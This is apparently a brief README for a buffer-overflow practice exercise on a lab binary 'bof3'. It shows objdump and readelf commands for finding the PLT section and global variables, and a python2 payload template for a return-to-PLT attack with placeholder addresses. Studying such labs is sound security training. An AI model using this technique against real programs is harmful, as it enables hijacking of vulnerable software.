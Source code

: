 # Buffer Overflow : return to plt
1. TARGET FILE : bof3 <br>
2. SORUCE FILE : bof3.c <br>

***TASK1*** 
```
Q.) How to Find plt section in elf file? 
A.) use objdump option with -j ".plt" 

How To) 
objdump -d -M intel -j .plt bof3 
```

***TASK2*** 
```
Q.) How to Find global Variable ? 
A.) user readelf tool with -s 

How To) 
readelf -s bof3 |grep GLOBAL 
```
***TASK3*** 
```
Q.) plt Payloads? 
A.) Command This 

python2 -c "print 'a'*offset '{plt section function address}'+'BBBB'+'{GLOBAL VARIABLE ADDRESS}'" | ./target_file <br>
```

